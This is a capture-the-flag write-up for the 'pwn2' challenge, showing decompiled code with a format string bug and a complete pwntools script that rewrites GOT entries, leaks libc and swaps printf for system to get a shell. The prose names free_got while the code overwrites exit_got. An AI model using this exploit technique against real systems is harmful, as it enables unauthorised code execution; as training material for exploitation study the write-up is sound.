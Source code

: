 # pwn2
> LongChampion, 06/04/2020

## Challenge
The binary is compiled with no PIE and partial RELRO, look at `main` function:
```cpp
void __cdecl __noreturn main(int a1)
{
  char s[4]; // [esp+0h] [ebp-4Ch]
  char v2; // [esp+4h] [ebp-48h]
  unsigned int v3; // [esp+40h] [ebp-Ch]
  int *v4; // [esp+44h] [ebp-8h]

  v4 = &a1;
  v3 = __readgsdword(0x14u);
  *(_DWORD *)s = 0;
  memset(&v2, 0, 0x3Cu);
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
  alarm(0x3Cu);
  sub_80485B6();
  printf("input: ");
  fgets(s, 64, stdin);
  printf(s);
  exit(0);
}
```
Well, you can see that these is a format string vulnerable.  
First, I overwrite `free_got` with main_addr to create a loop, so we can use this vulnerable multiple times. After that, I use format string to scan the return address of main to leak libc base address. Finally, I overwrite `printf_got` with `system` then type `/bin/sh` to pop a shell.

## Solution
```python
#!/usr/bin/env python2
from pwn import *
context.binary = "./pwn2"

BASE = 7
exit_got = 0x804b020
main_addr = 0x080485EB

r = remote('pwn2-01.play.midnightsunctf.se', 10002)
lib = ELF("./libc.so.6", checksec=False)


payload1 = fmtstr_payload(BASE, {exit_got: main_addr})
r.sendlineafter("input:", payload1)

payload2 = "%59$x"
r.sendlineafter("input:", payload2)
Leak = r.recvline().strip()
print "Leak =", Leak
LIBC = int(Leak, 16) - lib.symbols["__libc_start_main"]
log.info("LIBC ~= " + hex(LIBC))
LIBC &= ~0xfff
log.success("LIBC: " + hex(LIBC))

system = LIBC + lib.symbols["system"]

printf_got = 0x804b00c
payload3 = fmtstr_payload(BASE, {printf_got: system}, write_size="short")
r.sendlineafter("input:", payload3)
r.interactive() # type /bin/sh to pop a shell
```
